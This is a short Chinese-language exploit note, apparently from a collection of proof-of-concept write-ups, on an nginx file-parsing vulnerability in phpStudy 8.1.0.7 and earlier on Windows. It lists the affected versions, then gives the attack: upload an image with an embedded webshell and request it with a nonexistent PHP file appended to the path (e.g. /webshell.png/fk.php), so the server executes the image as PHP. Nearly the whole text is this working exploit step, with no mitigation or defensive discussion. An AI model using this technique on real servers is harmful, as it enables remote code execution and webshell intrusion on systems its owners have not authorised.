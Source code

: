 # phpstudy nginx 解析漏洞

影响版本：
```
phpStudy <=8.1.0.7 Windows版本
```


poc
```
http://www.xxx.com/webshell.png/fk.php (任何服务器端不存在的php文件均可,比如fk.php)

上传图片马，然后使用poc进行解析：
/webshell.png/fk.php
即可把webshell.png当php来解析
```